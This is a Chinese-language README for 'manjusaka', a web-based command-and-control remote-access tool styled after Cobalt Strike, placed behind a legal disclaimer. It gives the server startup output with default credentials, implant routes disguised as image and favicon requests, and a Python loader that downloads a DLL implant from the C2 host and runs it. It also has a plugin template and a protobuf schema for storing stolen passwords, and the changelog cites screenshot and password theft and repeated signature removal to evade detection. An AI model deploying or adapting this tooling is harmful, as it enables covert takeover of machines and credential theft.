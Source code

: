 
# 免责声明 
本工具仅面向合法授权的企业安全建设行为，如您需要测试本工具的可用性，请自行搭建靶机环境。

在使用本工具进行检测时，您应确保该行为符合当地的法律法规，并且已经取得了足够的授权。请勿对非授权目标进行扫描。

此工具仅限于安全研究和教学，用户承担因使用此工具而导致的所有法律和相关责任！ 作者不承担任何法律和相关责任！

如您在使用本工具的过程中存在任何非法行为，您需自行承担相应后果，我们将不承担任何法律及连带责任。



# manjusaka
牛屎花  一款基于WEB界面的仿CobaltStrike C2远控 

##系统架构： ![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.jpg)

## 使用方法
```bash
[root@devops nps]# ./manjusaka
[NPS] 2022/09/14 15:57:21 初始用户: manjusaka  密码: ZbFCa2L2LRd5
[NPS] 2022/09/14 15:57:21 创建项目: 公共项目 没有归属的npc放在这个项目里面
[NPS] 2022/09/14 15:57:21 监听项目路由: VHOS5vqN
[NPS] 2022/09/14 15:57:21 NPS监听地址 :3200
[NPS] 2022/09/14 15:57:21 NPU后台地址 : manjusaka
[NPS] 2022/09/14 15:57:21 NPC监听地址 :801
[NPS] 2022/09/14 15:57:21 NPC交互路由 : /:target/favicon.ico
[NPS] 2022/09/14 15:57:21 NPC下载路由 : /:target/assert/:sys/bg.jpg
[NPS] 2022/09/14 15:57:21 NPC文件路由 : /images/:fid/logo.png
```
则NPS访问地址为  http://192.168.93.217:3200/manjusaka 


1、创建项目，默认有一个公共项目，选择当前项目后 可在回传结果里面查看当前项目回传的信息

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/1.jpg)


2、根据项目 生成npc 可以直接使用exe或elf格式的npc。也可以使用其它语言加载npc母体 比如使用python加载npc
 
```python
import requests
from ctypes import cdll

res = requests.get("http://192.168.93.217:801/bq1iFEP2/assert/dll/bg.jpg")
with open("a.dll","wb") as f:
    f.write(res.content)

dll = cdll.LoadLibrary("a.dll")
dll.main()

```


![](https://github.com/YDHCUI/manjusaka/blob/mainimages/2.png)

3、npc上线，点选中该npc即可对其进行操作

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/3.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/4.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/5.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/6.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/7.png)

![](https://github.com/YDHCUI/manjusaka/blob/mainimages/8.png)


4、插件系统 生成dll/so插件, 以plug_name_nps.dll格式命名放到plugins文件夹下面 即可动态调用
插件开发示例, main传入插件运行参数 传出返回的内容值 
```rust
/* 
//./Cargo.toml
[lib]
path = "src/lib.rs"
crate-type = ["cdylib"]
*/

//src/lib.rs

use std::ffi::CStr;
use std::ffi::CString;
use std::os::raw::c_char;

#[no_mangle]
pub unsafe extern "C" fn main(args: *const c_char) -> *const c_char { 
    let r_str = CStr::from_ptr(args).to_str().unwrap();

    println!("plugin load args: {}", r_str);
    let c_str = format!("plugin return {}",r_str);

    CString::new(c_str).expect("CString failed").into_raw()
}

```
返回值匹配到如下protobuf格式后后将结果写入数据库

```protobuf
syntax = "proto3";

message PassResult{
    string username = 1;
    string password = 2;
    string passtype = 3;
    string passfrom = 4;
}

message PassScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

message PortResult{
    string host = 1;
    string port = 2;
    string proto = 3;
    string version = 4;
}
message PortScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}
message HttpResult{
    string proto = 1;
    string host = 2;
    string port = 3;
    string title = 4;
    string note = 5;
}
message HttpScan{
    string hosts = 1;
    string ports = 2;
    string args = 3;
    repeated PortResult result = 4;
}

```

 
## 更新

### v0.5
1、修复安全漏洞

2、开放NPC配置修改功能

3、上传文件流程优化

4、增加动态插件功能，可拓展更多功能 

5、去除特征、修复bug 


### v0.4
1、随机key 

2、去除特征、修复bug 

### v0.3
1、实现截屏、密码获取功能。(仅window) 

2、修复cmd界面不能黏贴的bug。 

3、修复项目不能暂停的bug。 

4、自动创建data文件夹。 


### v0.2
1、修改网络协议使流量加密。

2、加入本地文件上传下载功能。

3、修复shell界面位移bug。

### v0.1
1、实现基础远控功能。


## 交流
https://discord.gg/YMqeN5Qyk4
